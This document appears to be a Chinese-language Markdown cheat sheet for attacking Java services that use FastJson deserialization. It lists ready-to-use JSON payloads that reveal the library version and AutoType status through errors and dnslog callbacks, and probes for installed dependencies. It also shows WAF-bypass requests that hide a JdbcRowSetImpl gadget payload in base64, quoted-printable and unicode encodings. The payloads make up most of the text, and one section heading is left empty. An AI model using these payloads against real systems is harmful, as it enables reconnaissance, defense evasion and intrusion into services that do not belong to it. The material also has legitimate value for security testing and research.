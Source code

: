 - [Deserializable Cheatsheet](#deserializable-cheatsheet)
  - [FastJson](#fastjson)
    - [版本探测](#版本探测)
    - [AutoType探测](#autotype探测)
    - [依赖环境探测](#依赖环境探测)
    - [WAF Bypass](#waf-bypass)
  - [参考](#参考)

# Deserializable Cheatsheet
## FastJson
### 版本探测
遇到`{`和`,`会抛出版本信息.
```json
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog.com"}}
{{"@type":"java.net.URL","val":"http://dnslog.com"}:"a"}
{"@type":"java.lang.AutoCloseable"
```   
![](2023-01-16-17-04-16.png)  
1.2.47
```json
{"@type":"java.lang.Class","val":"java.io.ByteArrayOutputStream"},
{"@type":"java.io.ByteArrayOutputStream"},
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog.com"}}
```
1.2.68
```json
{"@type":"java.lang.AutoCloseable","@type":"java.io.ByteArrayOutputStream"},
{"@type":"java.io.ByteArrayOutputStream"},
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog.com"}}
```
1.2.80
```json
{"@type":"java.lang.Exception","@type":"com.alibaba.fastjson.JSONException","x":{"@type":"java.net.InetSocketAddress"{"address":,"val":"first.dnslog.com"}}},
{"@type":"java.lang.Exception","@type":"com.alibaba.fastjson.JSONException","message":{"@type":"java.net.InetSocketAddress"{"address":,"val":"second.dnslog.com"}}}
```
### AutoType探测
1.x版本中,当使用`parse(String text)`或者`parseObject(String text)`时
```json
{"@type":"aaaa"}
```
![](2023-01-16-17-46-10.png)  
但在2.x版本,`parseObject`不再反序列化.
### 依赖环境探测
```json
{"@type":"java.lang.Class","val":${class}}
```
```
org.springframework.web.bind.annotation.RequestMapping spring
org.apache.catalina.startup.Tomcat tomcat
groovy.lang.GroovyShell groovy
com.mysql.jdbc.Driver mysql
java.net.http.HttpClient java 11
```
```json
{"@type":"java.net.Inet4Address", "val":{"@type":"java.lang.String" {"@type":"java.util.Locale", "val":{"@type":"com.alibaba.fastjson.JSONObject",{ "@type": "java.lang.String""@type":"java.util.Locale", "language":{"@type":"java.lang.String" {1:{"@type":"java.lang.Class","val":"TARGET_CLASS"}}, "country":"x.l56y7u6g.dnslog.pw" 
```
```json
{"@type":"java.lang.Character"{"@type":"java.lang.Class","val":"com.mysql.jdbc.Driver"}
```
### WAF Bypass
编码:base64,Quoted-printable,unicode  
payload: {"@type":"com.sun.rowset.JdbcRowSetImpl"}  
```http
------WebKitFormBoundaryAO5f48pfmr4ErWMN
Content-Disposition: form-data; name=json
Content-Transfer-Encoding: Base64
eyJAdHlwZSI6ImNvbS5zdW4ucm93c2V0LkpkYmNSb3dTZXRJbXBsIn0=
------WebKitFormBoundaryAO5f48pfmr4ErWMN--
```
```http
------WebKitFormBoundaryAO5f48pfmr4ErWMN
Content-Disposition: form-data; name=json
Content-Transfer-Encoding: quoted-printable
=7B=22=40type=22=3A=22com.sun.rowset.JdbcRowSetImpl=22=7D
------WebKitFormBoundaryAO5f48pfmr4ErWMN--
```
```json
{,new:[NaN,x'00',{,/*}*/'\x40\u0074\x79\u0070\x65':xjava.langAutoCloseable"
```
垃圾字符:
## 参考
[Hacking JSON KCon2022](https://github.com/knownsec/KCon/blob/master/2022/Hacking%20JSON%E3%80%90KCon2022%E3%80%91.pdf)  
https://b1ue.cn/archives/402.html